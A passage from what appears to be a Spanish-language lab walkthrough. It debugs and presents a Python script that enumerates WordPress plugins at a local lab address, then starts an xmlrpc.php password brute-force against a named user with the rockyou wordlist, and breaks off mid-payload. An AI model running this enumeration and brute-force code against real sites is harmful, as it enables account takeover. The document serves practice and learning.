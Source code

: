 #### **Prueba con enumeración de plugins (opción 2)**:
- Ejecutamos de nuevo:
  ```bash
  python3 script.py
  ```
- Introducimos `2`.
- El script no encuentra ningún plugin. Algo falla.

**Depuración**:
- Revisamos la función `ataque_plugin()` y nos damos cuenta de que la URL base (`http://172.17.0.2/wp-content/plugins/`) no incluye el subdirectorio `/wordpress/`, donde está instalado WordPress en esta máquina.
- Corregimos la URL base a:
  ```python
  base_url = "http://172.17.0.2/wordpress/wp-content/plugins/"
  ```
- Volvemos a ejecutar con la opción `2`.
- Ahora sí funciona y muestra, por ejemplo:
  ```
  [+] Plugin encontrado: akismet
  Debes insertar esta url: http://172.17.0.2/wordpress/wp-content/plugins/akismet/readme.txt
  ```
- Copiamos la URL en el navegador y confirmamos que el plugin `akismet` existe, viendo detalles como su versión.

---

### **Paso 7: Código final completo**
Aquí está el script completo tras todas las correcciones:

```python
import requests

def ataque_plugin():
    plugins = (
        "jetpack", "akismet", "contact-form-7", "woocommerce", "wordfence",
        # ... lista completa de plugins ...
        "wp-optimize-premium"
    )
    base_url = "http://172.17.0.2/wordpress/wp-content/plugins/"
    
    def check_plugin(plugin):
        url = f"{base_url}{plugin}/readme.txt"
        response = requests.get(url)
        if response.status_code == 200:
            print(f"[+] Plugin encontrado: {plugin}")
            print(f"Debes insertar esta url: {base_url}{plugin}/readme.txt")
        else:
            pass
    
    for plugin in plugins:
        check_plugin(plugin)

def bruteforce():
    url = 'http://172.17.0.2/wordpress/xmlrpc.php'
    usuario = 'luisillo'
    contraseña = 'rockyou.txt'
    
    with open(contraseña, 'r', encoding='latin-1') as diccionario:
        passwords = diccionario.readlines()
    
    for password in passwords:
        password = password.strip()
        payload = f"""
        <?xml version="1.0" encoding="UTF-8"?>
```